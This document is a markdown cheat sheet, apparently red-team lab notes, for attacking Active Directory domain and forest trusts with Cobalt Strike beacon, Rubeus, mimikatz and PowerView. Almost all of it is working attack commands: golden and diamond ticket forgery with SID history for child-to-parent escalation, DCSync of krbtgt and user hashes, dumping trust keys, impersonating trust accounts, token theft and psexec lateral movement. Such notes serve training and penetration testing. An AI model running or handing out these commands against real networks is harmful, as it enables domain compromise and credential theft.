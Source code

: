# Forest and Domain Trusts

# Enumerate the Domain Trust (Use -Domain attribute to enumerate other domains)

    beacon> powerpick Get-DomainTrust

## PrivEsc : Child (DEV.CYBERBOTIC.IO) to Parent (CYBERBOTIC.IO) within Same Domain via SID History

# Enumerate basic info required for creating forged ticket

    beacon> powerpick Get-DomainGroup -Identity "Domain Admins" -Domain cyberbotic.io -Properties ObjectSid
    beacon> powerpick Get-DomainController -Domain cyberbotic.io | select Name
    beacon> powerpick Get-DomainGroupMember -Identity "Domain Admins" -Domain cyberbotic.io | select MemberName

# Use Golden Ticket technique

    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:<aes256> /user:Administrator /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /sids:S-1-5-21-2594061375-675613155-814674916-512 /nowrap

# Or, Use Diamond Ticket technique

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:Administrator /ticketuserid:500 /groups:519 /sids:S-1-5-21-2594061375-675613155-814674916-519 /krbkey:<krbtgt-aes256> /nowrap

# Inject the ticket

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

    beacon> steal_token 5060
    beacon> run klist
    beacon> ls \\dc-1.cyberbotic.io\c$
    beacon> jump psexec64 dc-1.cyberbotic.io PeerSambhar
    beacon> dcsync cyberbotic.io cyber\krbtgt

## Exploiting Inbound Trusts (Users in our domain can access resources in foreign domain)

# We can enumerate the foreign domain with inbound trust

    beacon> powerpick Get-DomainTrust
    beacon> powerpick Get-DomainComputer -Domain dev-studio.com -Properties DnsHostName

# Check if members in current domain are part of any group in foreign domain

    beacon> powerpick Get-DomainForeignGroupMember -Domain dev-studio.com
    beacon> powerpick ConvertFrom-SID S-1-5-21-569305411-121244042-2357301523-1120
    beacon> powerpick Get-DomainGroupMember -Identity "Studio Admins" | select MemberName
    beacon> powerpick Get-DomainController -Domain dev-studio.com | select Name

# Fetch the AES256 hash of nlamb user identfied in previous steps

    beacon> dcsync dev.cyberbotic.io dev\nlamb

# We can create Inter-Realm TGT for user identified in above steps (/aes256 has users hash)

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /aes256:<aes256> /nowrap

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:krbtgt/dev-studio.com /domain:dev.cyberbotic.io /dc:dc-2.dev.cyberbotic.io /ticket:doIFwj[...]MuaW8= /nowrap

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

# Inject the ticket

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

    beacon> steal_token 5060
    beacon> run klist
    beacon> ls \\dc.dev-studio.com\c$

## Exploiting Outbound Trusts (Users in other domain can access resources in our domain)

# Enumerate the outbound trust (msp.com) in parent domain (cyberbotic.io)

    beacon> powerpick Get-DomainTrust -Domain cyberbotic.io

# Enumerate the TDO to fetch the shared trust key 

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=trustedDomain)" --domain cyberbotic.io --attributes distinguishedName,name,flatName,trustDirection

# To be execute on the DC having outbound trust

    beacon> run hostname 
    beacon> mimikatz lsadump::trust /patch

# OR, Use DCSync to get the ntlm hash of TDO object remotely

    beacon> powerpick Get-DomainObject -Identity "CN=msp.org,CN=System,DC=cyberbotic,DC=io" | select objectGuid
    beacon> mimikatz @lsadump::dcsync /domain:cyberbotic.io /guid:{b93d2e36-48df-46bf-89d5-2fc22c139b43}

# There is a "trust account" which gets created in trusted domain (msp.com) by the name of trusting domain (CYBER$), it can be impersonated to gain normal user access (/rc4 is the NTLM hash of TDO Object)

    beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Release\ADSearch.exe --search "(objectCategory=user)"

    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:CYBER$ /domain:msp.org /rc4:f3fc2312d9d1f80b78e67d55d41ad496 /nowrap

# Inject the ticket  
    beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:MSP /username:CYBER$ /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

    beacon> steal_token 5060
    beacon> run klist
    beacon> powerpick Get-Domain -Domain msp.org
